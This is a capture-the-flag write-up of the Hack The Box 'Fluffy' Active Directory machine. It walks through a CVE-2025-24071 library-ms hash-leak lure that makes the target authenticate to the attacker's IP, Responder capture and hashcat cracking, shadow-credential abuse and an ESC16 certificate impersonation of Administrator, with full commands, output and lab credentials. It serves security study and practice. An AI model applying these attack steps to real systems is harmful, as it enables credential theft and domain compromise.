


<div align="center"> <script src="https://app.hackthebox.com/profile/1670709"></script> </div>

---

`Fluffy` is an assume-breach Windows Active Directory challenge. I begin by exploiting CVE-2025-24071 / CVE-2025-24055 a flaw in how Windows processes library-ms files inside ZIPs that causes the target to attempt authentication to an attacker-controlled host. I capture a NetNTLMv2 hash and crack it. BloodHound then reveals the compromised user has GenericWrite over several service accounts; I abuse that to obtain a WinRM shell using one of those accounts. From that foothold I exploit ESC16 in the AD CS environment to escalate to a full Administrator shell.
# Port Scan
Default all ports scan 
```sh
nmap --min-rate 10000 -p- 10.129.213.177 -o nmap/allports
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 14:05 EAT
Nmap scan report for 10.129.213.177
Host is up (1.6s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49677/tcp open  unknown
49678/tcp open  unknown
49685/tcp open  unknown
49698/tcp open  unknown
49712/tcp open  unknown
49734/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 49.18 seconds

```

Udp ports 
```sh
nmap --min-rate 10000 -p- -sU 10.129.213.177 -o nmap/allportsUdp
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 14:07 EAT
Nmap scan report for 10.129.213.177
Host is up (1.4s latency).
Not shown: 65531 open|filtered udp ports (no-response)
PORT    STATE SERVICE
53/udp  open  domain
88/udp  open  kerberos-sec
123/udp open  ntp
389/udp open  ldap

Nmap done: 1 IP address (1 host up) scanned in 23.88 seconds

```

Default scripts scan.
```sh
nmap -sC -sV -A 10.129.213.177 -o nmap/nmap-scripts-scan
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 14:10 EAT
Nmap scan report for 10.129.213.177
Host is up (0.66s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-26 18:11:58Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-26T18:13:49+00:00; +7h00m00s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-26T18:13:48+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-05-26T18:13:50+00:00; +7h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.fluffy.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.fluffy.htb
| Not valid before: 2025-04-17T16:04:17
|_Not valid after:  2026-04-17T16:04:17
|_ssl-date: 2025-05-26T18:13:49+00:00; +7h00m00s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019|10 (97%)
OS CPE: cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_10
Aggressive OS guesses: Windows Server 2019 (97%), Microsoft Windows 10 1903 - 21H1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-26T18:13:10
|_  start_date: N/A

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   676.54 ms 10.10.16.1
2   677.84 ms 10.129.213.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 185.36 seconds

```

From the scan we have `Windows Server 2019` , the host name is `DC01` and the domain name is `fluffy.htb` we add to our `/etc/hosts` file .
```
10.129.213.177	DC01.fluffy.htb DC01 fluffy.htb 
```

# smb

The machine is an assumed breach and hack the box gives us creds of a low privileged user : 
```
MACHINE INFORMATION

As is common in real life Windows pentests, you will start the Fluffy box with credentials for the following account: j.fleischman / J0elTHEM4n1990!
```

The port scan returned an open smb server and since we have some credentials lets verify them.
```sh
 nxc smb 10.129.213.177 -u j.fleischman -p J0elTHEM4n1990! 
SMB         10.129.213.177  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.213.177  445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 

```

The creds are valid lets list the shares.
```sh
 nxc smb 10.129.213.177 -u j.fleischman -p J0elTHEM4n1990! --shares
SMB         10.129.213.177  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.213.177  445    DC01             [+] fluffy.htb\j.fleischman:J0elTHEM4n1990! 
SMB         10.129.213.177  445    DC01             [*] Enumerated shares
SMB         10.129.213.177  445    DC01             Share           Permissions     Remark
SMB         10.129.213.177  445    DC01             -----           -----------     ------
SMB         10.129.213.177  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.213.177  445    DC01             C$                              Default share
SMB         10.129.213.177  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.213.177  445    DC01             IT              READ,WRITE      
SMB         10.129.213.177  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.213.177  445    DC01             SYSVOL          READ            Logon server share 

```

We have read and write permissions on the `IT` share.We can use `smbclient` to  access it : 
```sh
smbclient //10.129.213.177/IT -U j.fleischman%J0elTHEM4n1990!
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon May 26 21:23:41 2025
  ..                                  D        0  Mon May 26 21:23:41 2025
  Everything-1.4.1.1026.x64           D        0  Fri Apr 18 18:08:44 2025
  Everything-1.4.1.1026.x64.zip       A  1827464  Fri Apr 18 18:04:05 2025
  KeePass-2.58                        D        0  Fri Apr 18 18:08:38 2025
  KeePass-2.58.zip                    A  3225346  Fri Apr 18 18:03:17 2025
  Upgrade_Notice.pdf                  A   169963  Sat May 17 17:31:07 2025

		5842943 blocks of size 4096. 1504743 blocks available
smb: \> get Upgrade_Notice.pdf 
getting file \Upgrade_Notice.pdf of size 169963 as Upgrade_Notice.pdf (18.4 KiloBytes/sec) (average 18.4 KiloBytes/sec)
smb: \>
```

We have a file `Upgrade_Notice.pdf ` lets first get its contents.
```
file Upgrade_Notice.pdf
Upgrade_Notice.pdf: PDF document, version 1.4, 2 page(s)

open Upgrade_Notice.pdf 
```

The file is a `Patch Announcement` from the `IT Department`, instructing the administrators to schedule a maintenance timeslot to upgrade all the systems. we also get a list of recent vulnerabilities on the system.

| CVE ID         | Severity |
| -------------- | -------- |
| CVE-2025-24996 | critical |
| CVE-2025-24071 | critical |
| CVE-2025-46785 | High     |
| CVE-2025-29968 | High     |
| CVE-2025-21193 | Medium   |
| CVE-2025-3445  | low      |

# CVE's

## CVE-2025-24996
Starting with the first critical cve which gives us a windows `NTLM Hash Disclosure Spoofing Vulnerability`.

`CVE-2025-24996` is a vulnerability in Windows NTLM that ==allows attackers to perform spoofing by controlling file names or paths==. This can lead to an attacker tricking users into interacting with malicious files or systems.
- `Vulnerability`: External control of file name or path in Windows NTLM. 
- `Impact`: An attacker can use this to spoof files or systems, leading to potential data theft or system compromise. 

But we don't get a public poc thus we move on to the next.

## CVE-2025-24071
Searching the cve we get a [repository](https://github.com/ThemeHackers/CVE-2025-24071) explaining the critical spoofing vulnerability in Windows File Explorer.
The issue arises from the implicit trust and automatic file parsing behavior of `.library-ms` files in Windows Explorer. An unauthenticated attacker can exploit this vulnerability by constructing RAR/ZIP files containing a malicious SMB path. Upon decompression, this triggers an SMB authentication request, potentially exposing the user's NTLM hash.

The repository does list the affected versions and the version that nmap identified is found vulnerable thus we can exploit locally by cloning the repo.

## Exploitation
The exploit takes creates an exploit and inserts our ip address on the `library_contents` then we can use the exploit by running it on the victims machine.
```python
python3 exploit.py -i 10.10.16.16 -f sherlock

          ______ ____    ____  _______       ___     ___    ___    _____        ___    _  _      ___    ______   __  
         /      |\   \  /   / |   ____|     |__ \   / _ \  |__ \  | ____|      |__ \  | || |    / _ \  |____  | /_ | 
        |  ,----' \   \/   /  |  |__    ______ ) | | | | |    ) | | |__    ______ ) | | || |_  | | | |     / /   | | 
        |  |       \      /   |   __|  |______/ /  | | | |   / /  |___ \  |______/ /  |__   _| | | | |    / /    | | 
        |  `----.   \    /    |  |____       / /_  | |_| |  / /_   ___) |       / /_     | |   | |_| |   / /     | | 
         \______|    \__/     |_______|     |____|  \___/  |____| |____/       |____|    |_|    \___/   /_/      |_| 
                                                
                                                
                                                Windows File Explorer Spoofing Vulnerability (CVE-2025-24071)
                    by ThemeHackers                                                                                                                                                           
    
Creating exploit with filename: sherlock.library-ms
Target IP: 10.10.16.16

Generating library file...
✓ Library file created successfully

Creating ZIP archive...
✓ ZIP file created successfully

Cleaning up temporary files...
✓ Cleanup completed

Process completed successfully!
Output file: exploit.zip
Run this file on the victim machine and you will see the effects of the vulnerability such as using ftp smb to send files etc.

```

In our case we can use smb then on our attacker machine set up `responder` to capture the authentication hash.
```sh
smbclient //10.129.213.177/IT -U j.fleischman%J0elTHEM4n1990! -c "put exploit.zip"
putting file exploit.zip as \exploit.zip (0.3 kb/s) (average 0.3 kb/s)


sudo responder -I tun0 
```

After some time we get a hash on responder
```
[SMB] NTLMv2-SSP Client   : 10.129.213.177
[SMB] NTLMv2-SSP Username : FLUFFY\p.agila
[SMB] NTLMv2-SSP Hash     : p.agila::FLUFFY:27c3f89d1536c2ab:B85F3F2851DF197CF0BE9224BD5F20F8:0101000000000000809509AE54CEDB01E53E12F283AF21C80000000002000800440046004300420001001E00570049004E002D0046004400340050003500430042004D004D0058004C0004003400570049004E002D0046004400340050003500430042004D004D0058004C002E0044004600430042002E004C004F00430041004C000300140044004600430042002E004C004F00430041004C000500140044004600430042002E004C004F00430041004C0007000800809509AE54CEDB01060004000200000008003000300000000000000001000000002000003F9B7AE3C9F6B77AEBA698DE2214B4E1DE1648A597CC40369926C0F5448A3E270A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310036002E00310036000000000000000000
```

We save the hash and try cracking it.
Hashcat identifies the hash as `5600 | NetNTLMv2 | Network Protocol`
```sh
hashcat -m 5600 -a 0 agila_hash /usr/share/wordlists/rockyou.txt

hashcat -m 5600 -a 0 agila_hash --show
P.AGILA::FLUFFY:27c3f89d1536c2ab:b85f3f2851df197cf0be9224bd5f20f8:0101000000000000809509ae54cedb01e53e12f283af21c80000000002000800440046004300420001001e00570049004e002d0046004400340050003500430042004d004d0058004c0004003400570049004e002d0046004400340050003500430042004d004d0058004c002e0044004600430042002e004c004f00430041004c000300140044004600430042002e004c004f00430041004c000500140044004600430042002e004c004f00430041004c0007000800809509ae54cedb01060004000200000008003000300000000000000001000000002000003f9b7ae3c9f6b77aeba698de2214b4e1de1648a597cc40369926c0f5448a3e270a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00310036000000000000000000:prometheusx-303

```

now we have a new set of creds 
- Username : `p.agila`
- Password : `prometheusx-303`
Verifying the creds : 
```sh
nxc smb 10.129.213.177 -u p.agila -p prometheusx-303 
SMB         10.129.213.177  445    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb) (signing:True) (SMBv1:False)
SMB         10.129.213.177  445    DC01             [+] fluffy.htb\p.agila:prometheusx-303 

```

Trying winrm : 
```sh
 nxc winrm 10.129.213.177 -u p.agila -p prometheusx-303 
WINRM       10.129.213.177  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
WINRM       10.129.213.177  5985   DC01             [-] fluffy.htb\p.agila:prometheusx-303

```

# Bloodhound
Since we don't have a shell we use bloodhound python .
```sh
 bloodhound-python -d fluffy.htb -ns 10.129.213.177 -c all -u p.agila -p prometheusx-303
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: fluffy.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.fluffy.htb
INFO: Found 10 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC01.fluffy.htb
WARNING: DCE/RPC connection failed: [Errno Connection error (10.129.213.177:445)] timed out
WARNING: DCE/RPC connection failed: The NETBIOS connection with the remote host timed out.
INFO: Done in 02M 16S

```

After uploading the files in bloodhound we start by marking the users `j.fleischman` and `p.agila` as owned then use outbound to see what we can do.


We have `p.agila` as owned who is a member of  the `Service Account Managers`  who have full control over the `SERVICE ACCOUNTS` group from the `GenericAll` permissions thus we can add ourselves to the group.  
Once we are member of the group we get we have `GenericWrite` permissions over the user `WINRM_SVC` who is a member of `REMOTE MANAGEMENT USERS` giving us a shell.

## GenericAll
The members of the group `SERVICE ACCOUNT MANAGERS@FLUFFY.HTB` have GenericAll permissions to the group `SERVICE ACCOUNTS@FLUFFY.HTB`.
We can add members to the group.
```sh
bloodyAD -d fluffy.htb --host 10.129.213.177 -u p.agila -p prometheusx-303 add groupMember 'SERVICE ACCOUNTS' 'p.agila'
[+] p.agila added to SERVICE ACCOUNTS


net rpc group members "SERVICE ACCOUNTS" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "10.129.213.177"
FLUFFY\ca_svc
FLUFFY\ldap_svc
FLUFFY\p.agila
FLUFFY\winrm_svc


```

## GenericWrite 
The members of the group `SERVICE ACCOUNTS@FLUFFY.HTB` have generic write access to the user `WINRM_SVC@FLUFFY.HTB`.
Bloodhound abuse suggests `Shadow Credentials attack`
```sh
certipy shadow auto -username p.agila@fluffy.htb -password prometheusx-303 -account WINRM_SVC
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '13b6a30f-8260-abac-6c5b-b25f8d935ef5'
[*] Adding Key Credential with device ID '13b6a30f-8260-abac-6c5b-b25f8d935ef5' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '13b6a30f-8260-abac-6c5b-b25f8d935ef5' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Using principal: winrm_svc@fluffy.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': None


```

To fix this : 
```sh 
sudo timedatectl set-ntp off; sudo rdate -n 10.129.213.177
Tue May 27 01:14:21 EAT 2025

```

Then we try again : 
```sh
certipy shadow auto -username p.agila@fluffy.htb -password prometheusx-303 -account WINRM_SVC
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'winrm_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '3daa302e-007d-eb5f-54dc-880b177f442c'
[*] Adding Key Credential with device ID '3daa302e-007d-eb5f-54dc-880b177f442c' to the Key Credentials for 'winrm_svc'
[*] Successfully added Key Credential with device ID '3daa302e-007d-eb5f-54dc-880b177f442c' to the Key Credentials for 'winrm_svc'
[*] Authenticating as 'winrm_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_svc.ccache'
[*] Wrote credential cache to 'winrm_svc.ccache'
[*] Trying to retrieve NT hash for 'winrm_svc'
[*] Restoring the old Key Credentials for 'winrm_svc'
[*] Successfully restored the old Key Credentials for 'winrm_svc'
[*] NT hash for 'winrm_svc': 33bd09dcd697600edf6b3a7af4875767

```

verify the hash
```sh
nxc winrm 10.129.213.177 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767 
WINRM       10.129.213.177  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
WINRM       10.129.213.177  5985   DC01             [+] fluffy.htb\winrm_svc:33bd09dcd697600edf6b3a7af4875767 (Pwn3d!)

```

# Privilege Escalation
Back in bloodhound we had a user `CA_SVC` the display name for the user was `certificate authority service` . Since the user was a member of the `Service Account` we can get the hash using the same method .
```sh
certipy shadow auto -username p.agila@fluffy.htb -password prometheusx-303 -account ca_svc
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: FLUFFY.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '43c75cc7-ca38-e276-786a-1e4d2a5f465b'
[*] Adding Key Credential with device ID '43c75cc7-ca38-e276-786a-1e4d2a5f465b' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '43c75cc7-ca38-e276-786a-1e4d2a5f465b' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': ca0f4f9e9eb8a092addf53bb03fc98c8

```

We start by enumerating the  user account info : 
```sh
certipy account -dc-ip 10.129.213.177 -u ca_svc -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -user ca_svc read
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Reading attributes for 'ca_svc':
    cn                                  : certificate authority service
    distinguishedName                   : CN=certificate authority service,CN=Users,DC=fluffy,DC=htb
    name                                : certificate authority service
    objectSid                           : S-1-5-21-497550768-2797716248-2627064577-1103
    sAMAccountName                      : ca_svc
    servicePrincipalName                : ADCS/ca.fluffy.htb
    userPrincipalName                   : ca_svc@fluffy.htb
    userAccountControl                  : 66048
    whenCreated                         : 2025-04-17T16:07:50+00:00
    whenChanged                         : 2025-05-26T22:30:10+00:00

```

Then we Change UPN (UserPrincipalName)
```sh
certipy account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.213.177  -upn 'administrator' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_svc'

```

By changing ca_svc's UPN to administrator, the certificate will authenticate as administrator.

Request a certificate impersonating the Administrator
```sh
certipy req -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.213.177  -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 22
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'


```


we get a `.pfx` certificate that can authenticate as administrator because the UPN in the certificate is `administrator`.
Revert the upn back to ca_svc.
```sh
certipy account -u 'ca_svc' -hashes 'ca0f4f9e9eb8a092addf53bb03fc98c8' -dc-ip 10.129.213.177  -upn 'ca_svc@fluffy.htb' -user 'ca_svc' update
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_svc':
    userPrincipalName                   : ca_svc@fluffy.htb
[*] Successfully updated 'ca_svc'

```

Now we Authenticate using the .pfx cert
```sh
certipy auth -pfx administrator.pfx -username 'administrator' -domain 'fluffy.htb' -dc-ip 10.129.213.177 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': aad3b435b51404eeaad3b435b51404ee:8da83a3fa618b6e3a00e93f676c92a6e

```

We verify authentication using the hash : 
```sh
nxc winrm 10.129.213.177 -u administrator -H 8da83a3fa618b6e3a00e93f676c92a6e
WINRM       10.129.213.177  5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:fluffy.htb)
WINRM       10.129.213.177  5985   DC01             [+] fluffy.htb\administrator:8da83a3fa618b6e3a00e93f676c92a6e (Pwn3d!)

```

## Why The Exploit Worked
The CA is misconfigured to allow any authenticated user to:
- Request a cert using **any UPN**
- Use a template that doesn't enforce identity validation


